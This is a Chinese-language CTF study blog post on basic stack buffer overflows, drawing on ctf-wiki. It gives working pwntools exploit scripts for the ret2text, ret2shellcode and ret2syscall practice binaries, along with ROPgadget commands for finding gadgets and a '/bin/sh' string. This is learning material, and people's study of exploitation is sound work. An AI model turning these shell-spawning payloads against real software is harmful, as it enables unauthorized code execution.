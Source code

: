 ﻿---
title:  学习pwn小记(1)
categories: [CTF]
tags: [pwn]

---

某年某日,应队伍缺pwn,故学习于ctf-wiki.学其有感,写文以记之。
<!-- more -->

## 栈溢出

### 原理

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。

![image-20200909214148691](image-20200909214148691.png)

如图，想要利用触发栈溢出程序必须向**栈上写入数据**和**写入的数据大小没有被良好地控制**

### 寻找危险函数

#### 关于输入的危险函数

​    gets()，直接读取一行，忽略'\x00'
​    	    scanf()
​            vscanf()

#### 关于输出的危险函数

   sprintf()

#### 关于字符串操作的危险函数

​    strcpy，字符串复制，遇到'\x00'停止
​    		strcat，字符串拼接，遇到'\x00'停止
​    		bcopy

### 确定填充长度

这一部分主要是计算我们所要操作的地址与我们所要覆盖的地址的距离。常见的操作方法就是打开 IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

- 相对于栈基地址的的索引，可以直接通过查看 EBP 相对偏移获得
- 相对应栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种类型。
- 直接地址索引，就相当于直接给定了地址。

一般来说，我们会有如下的覆盖需求

- 覆盖函数返回地址，这时候就是直接看 EBP 即可。
- 覆盖栈上某个变量的内容，这时候就需要更加精细的计算了。
- 覆盖 bss 段某个变量的内容。
- 根据现实执行情况，覆盖特定的变量或地址的内容。

ps：我们覆盖某个地址的目的是为了让程序读取我们覆盖的恶意地址来达到我们的目的，执行我们想要执行的东西。



## ret2text

emm,这道题保护只开了栈不可执行,对我来说影响深刻的反而是找buf的大小的问题。

![image-20200911231138664](image-20200911231138664.png)

照着以前对pwn薄弱理解，打开ide看到了：

![image-20200911220549058](image-20200911220549058.png)

然后照ebp算出的要溢出：0x64+4个（104）字符才能溢出到返回地址。

但是在gdb出来却是：

![image-20200911110700992](image-20200911110700992.png)

经过测试要溢出的字符的确是108个。才能覆盖返回地址。

通过收查资料发现，ebp存储着当前栈帧的栈底的地址是通常作为基址。而变量地址是通过通过ebp和偏移相加减来获取。但esp始终指向栈顶，随栈内数据增加或减少而变。同时ida是IDA是静态调试gdb是动态调试，所以ida计算偏移可能有误差，导致我们通过ebp计算出来有误差。（所以还是最好用动态调试）

然后就返回地址的问题，这里学到一个新的知识吧，返回0x804864A就可以将/bin/sh传入system执行。（

![image-20200911223653876](image-20200911223653876.png)

然后溢出大小控制了返回地址也确定了，这题就好做了。

```python
from pwn import *

p=process('./ret2text')

pay='a'*108+'bbbb'+p32(0x0804863A) 
#pay='a'*108+'bbbb'+p32(e.got['system'])+p32(0)+p32(0x08048763)#这个是调用system手动传入内置的‘/bin/sh’

p.sendline(pay)
p.interactive()
```





## ret2shellcode

这道题没有看到system与/bin/sh，但看到nx没防护,在vmap下发现buf有读写执行的能力,所以想要手动写入shell。

![image-20200912105057908](image-20200912105057908.png)

![image-20200912115324139](image-20200912115324139.png)

于是借着strncpy写入shell

```python
from pwn import *


p=process('./ret2shellcode')
e=ELF('./ret2shellcode')
shell=asm(shellcraft.sh())
lang=108+4-len(shell)
pay=shell+'a'*lang+p32(0x0804A080)#让buf前面是shell，后面是溢出数据，最后是buf地址

p.sendline(pay)
p.interactive()
```



## ret2syscall

这道题,本菜鸡感觉学到两个知识点用系统调用的方法来处理函数和ROPgadget的使用.当我们获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。于是我们可以构造

``` 
execve("/bin/sh",NULL,NULL)
可以理解为调用int 0x80(eax,ebx,ecx,edx)
即：
系统调用号，即 eax 应该为表execve的 0xb
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
第二个参数，即 ecx 应该为 0
第三个参数，即 edx 应该为 0

构造payload的框架大体是：
溢出数据 eax地址 eax的值 ebx地址  ebx值  ecx地址 ecx 值 edx 值 edx 值 0x80地址

```

eax、ebx、ecx、edx这些寄存器可以地址可以用ROPgadget来得到。这里说下ROPgadge是使用

查找可存储寄存器的地址：

```shell
ROPgadget --binary rop  --only 'pop|ret' | grep  '寄存器'
#例
ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
```

查找某字符串地址：

```shell
 ROPgadget --binary rop --string  "字符串“
 #例
 ROPgadget --binary rop --string "/bin/sh"
```



查找有int 0x80的地址：

```shell
ROPgadget --binary rop  --only 'int'
```

这样下来payload就容易构造了

```python
from pwn import *

p=process('./rop')
e=ELF('./rop')

pay='a'*112+p32(0x080bb196)+p32(0xb)+p32(0x0806eb90)+p32(0)+p32(0)+p32(0x080be408)+p32(0x08049421)
#pay溢出数据+eax地址+eax的值+ebx地址+ebx值+ecx地址+ecx 值 +edx 地址 +edx 值+0x80地址

p.sendline(pay)
p.interactive()
```

ps：由于v0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret   ，so先传cdx，ecx，再ebx。

## 参考文献

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/

https://www.jianshu.com/p/dd5fd511e0d3